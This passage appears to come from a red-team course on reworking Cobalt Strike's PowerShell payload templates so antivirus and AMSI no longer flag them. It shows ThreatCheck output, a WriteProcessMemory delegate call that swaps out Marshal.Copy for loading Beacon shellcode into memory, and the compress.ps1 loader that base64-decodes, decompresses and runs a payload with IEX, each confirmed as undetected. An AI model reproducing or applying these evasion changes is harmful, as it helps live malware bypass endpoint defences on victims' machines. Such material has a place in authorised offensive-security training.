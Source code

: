 ```batch
0000083B   2E 49 6E 74 65 72 6F 70  53 65 72 76 69 63 65 73   .InteropServices
0000084B   2E 4D 61 72 73 68 61 6C  5D 3A 3A 43 6F 70 79 28   .Marshal]::Copy(
[*] Run time: 0.93s
```

These files are significantly easier to analyse for us because they're just text, so we can open them in a tool like PowerShell ISE or VS Code and find the offending portion.  In this case, it seems to be alerting on line 32, which is where the .NET [Marshal.Copy](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.copy) method is being called to copy the Beacon shellcode into memory.

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/461b490ad3df923c71288b87c094fcb1.png" alt="" width="100%"><figcaption></figcaption></figure>

We can remove this altogether and replace it with a call to the native [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) API instead.

```csharp
$var_wpm = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll WriteProcessMemory), (func_get_delegate_type @([IntPtr], [IntPtr], [Byte[]], [UInt32], [IntPtr]) ([Bool])))
$ok = $var_wpm.Invoke([IntPtr]::New(-1), $var_buffer, $v_code, $v_code.Count, [IntPtr]::Zer
```

Now, no threat is found.

```batch
PS C:\Tools\cobaltstrike\custom-resources> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\template.x64.ps1 -e amsi
[+] No threat found!
[*] Run time: 0.19s
```

As with the artifact kit, we need to load `resources.cna` into the client before these new resources will be used.

#### compress.ps1 <a href="#el_1742391808376_576" id="el_1742391808376_576"></a>

This script is used in places like when hosting a PowerShell payload via Cobalt Strike's Scripted Web Delivery attack.  It will take `template.[x64/x86].ps1` depending on the payload architecture, GZIP compresses and base64 encodes it, then patches it into `compress.ps1`.

```csharp
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("%%DATA%%"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

ThreatCheck will not detect this template by itself.&#x20;

```batch
PS C:\Tools\cobaltstrike\custom-resources> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\compress.ps1 -e amsi
status value: AmsiResultNotDetected
[+] No threat found!
[*] Run time: 0.18s
```
